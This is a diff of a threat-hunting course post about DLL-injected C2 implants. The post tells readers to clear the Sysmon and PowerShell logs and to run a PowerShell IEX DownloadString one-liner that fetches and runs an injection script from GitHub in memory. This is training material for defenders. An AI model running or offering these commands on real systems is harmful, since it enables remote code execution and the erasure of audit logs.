

monday new

Changed region(s): [[0.0928, 0.7647, 0.5259, 0.9412]]

diff --git a/content/posts/course01.md b/content/posts/course01.md
@@ -1,6 +1,6 @@
 ---
 title: "Threat Hunting for Beginners: Hunting Standard Dll-Injected C2 Implants (Practical Course)"
-date: 2023-07-12T02:01:58+05:30
+date: 2023-08-12T02:01:58+05:30
 description: "In this beginner-friendly practical course we'll learn how to threat hunt standard DLL-injected C2 implants. We'll set up our own virtual environment, perform the attack, perform our threat hunting analysis, as well as write a report on our findings."
 tags: [threat_hunting, C2, dll_injection_attacks]
 author: "faan|ross"
@@ -725,7 +725,7 @@ Alright, since we are now literally about to pull the trigger, let's hit the rec
 
 First off we want to start capturing our packet capture using `WireShark`. In the search bar write `WireShark` and open it. Under `Capture` you will see the available interfaces, in my case the one we want is called `Ethernet0` - yours may or may not have the same name. How do you know which is the correct one? Look at the little graphs next to the names, only one should have little spikes representing actual network traffic, the rest are likely all flat. It's the active one, ie the one with traffic, we want - see image below.Once you've identified it, simply double-click on it, this then starts the recording. 
 
-{{< figure src="/img/image036.png" title="" class="custom-figure" >}}
+{{< figure src="/img/image036.png" title="" class="custom-figure-3" >}}
 
 One other thing, right before we start our attack I also want to clear both logs we activated - `Sysmon` and `PowerShell ScriptBlock`. You see since we've enabled it, it's likely recorded a bunch of events completely irrelevant to our interest here. So we'll clear them and start anew so our final capture is spared all this noise. 
 
@@ -739,44 +739,46 @@ wevtutil cl "Microsoft-Windows-PowerShell/Operational"
 
 # 2.3.4. Preparing Our Injection Script
 
-Next we need to perform a bit of *Macgyvering*...
+First, we need to perform a bit of *Macgyvering*...
 
 {{< figure src="/img/macgyver.gif" title="" class="custom-figure" >}}
 
-So above in `2.3.2` we created the malicious DLL (`evil.dll`). But of course, now we need a script to actually inject the DLL into a running process. One of the most popular scripts to do perform this is called [Invoke-DllInjection.ps1.](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-DllInjection.ps1)
+Above in `2.3.2` we created the malicious DLL (`evil.dll`). But of course, now we need a script to actually inject the DLL into a running process. One of the most popular scripts to do perform this is called [Invoke-DllInjection.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-DllInjection.ps1) from the [PowerShell Mafia](https://github.com/PowerShellMafia/PowerSploit). 
 
-The code as it currently stands on the original repo is however broken, at least when I tried it (in multiple configurations). The script has not been updated in a few years, and since it's also been archived it's unlikely it ever will be - the original authors have since moved on to bigger things. 
+The code as it currently stands on the original repo is however broken, at least when I tried it using multiple configurations. The script has not been updated in a few years, and since it's also been archived it's unlikely it ever will be - the original authors have since moved on to bigger things. 
 
 The good news though is I found a simple fix and have updated the script which is now being hosted on [my github repo here](https://raw.githubusercontent.com/faanross/threat.hunting.course.01.resources/main/Invoke-DllInjection-V2.ps1).
 
-And thus, just so you are aware, we are going to download and inject into memory the script directly from my personal Github repo but **in no way whatsoever do I want to appear as taking any credit/ownership for it**. The original link, as well as a reference to where I found the fix, can be found in the opening comments in the script itself, feel free to refer to them if you want. 
+And so, just so you are aware, we are going to download and inject into memory the script directly from my personal Github repo but `in no way whatsoever do I want to appear as taking any credit/ownership for it`. The original link, as well as a reference to where I found the fix, can be found in the opening comments in the script itself, feel free to refer to them if you want. 
 
-
-
-
-
-everything is setup, so we are ready to run or first attack command. 
-
-
-
-
-
-
-
-
-1. Back on our Windows VM we'll open an administrative PowerShell terminal - a reminder that in order to do so you have to right-click on PowerShell and select `Run as Administrator`. 
-
-{{< figure src="/img/image047.png" title="" class="custom-figure" >}}
-
-2. Now we'll run the following command, as mentioned before: it's going to download a script hosted on a webserver and then inject it directly into memory. This is a good example of what living off the land is all about - utilizing everyday components while not leaving any residue on the hard drive. 
-
+**OK, so now let's go ahead and download + inject the script into memory:**
+1. On our Windows VM we'll open an administrative PowerShell terminal - a reminder that in order to do so you have to right-click on PowerShell and select `Run as Administrator`. 
+2. Now we'll run the following command, as mentioned before: it's going to download a script hosted on a web server (GitHub in this case) and then inject it directly into memory. 
 ```
 IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/faanross/threat.hunting.course.01.resources/main/Invoke-DllInjection-V2.ps1')
 ```
+- Note that after you run it there won't be any feedback/output. You see, PowerShell is rather stoic -  not receiving any feedback/output almost always means the command ran successfully. Conversely, if there was an error, you'll get some red text telling you what went wrong. 
 
-Note that after you run it there won't be any feedback/output. In case you did not know this is almost universally true: when it comes to PowerShell, not receiving any feedback/output almost always means the command ran succesfully. If there was an error, you'll get some red text telling you what went wrong. 
 
-Great so the script that will inject `evil.dll` into a process memory space is now in memory. But to be clear: though we've injected that script into memory, but we've not yet executed it. We're about to do so, but before that there's one thing we need. Remeber in the beginning when I explained about how dll-injections work I said that we basically "trick" a legit process into running code from a malicious DLL. So this script is what's going to be doing the trickery, we of course have our malicious DLL which we transferred over, so taht means we only need a legit process.
+
+tk xxx cont here
+
+
+
+
+
+
+
+
+# 2.3.5. Injecting Our Malicious DLL
+
+Great so the script that will inject `evil.dll` into a process memory space is now in memory. But to be clear: though we've injected that script into memory, we've not yet executed it. 
+
+We're about to do so, but before that there's one more thing we need. Remember in the beginning when I explained how DLL-injections work I said that we "trick" a legit process into running code from a malicious DLL? So this script we just injected into memory is what's going to be doing the trickery, we also have our malicious DLL which we transferred over, so that means we only need one more thing - a legit process.
+
+
+
+
 
 Now it used to be the case that you could easily inject into any process, including native Windows processes like notepad and calculator. You'll notice if you do some older tutorials, they'll almost always choose one of these two as the example. However, though there are potential workarounds, this has become more ciomplicated since Windows 10 - if you're curious to know why [see here.](https://security.stackexchange.com/questions/197409/why-doesnt-dll-injection-works-on-windows-10-for-native-windows-binaries-e-g)
 
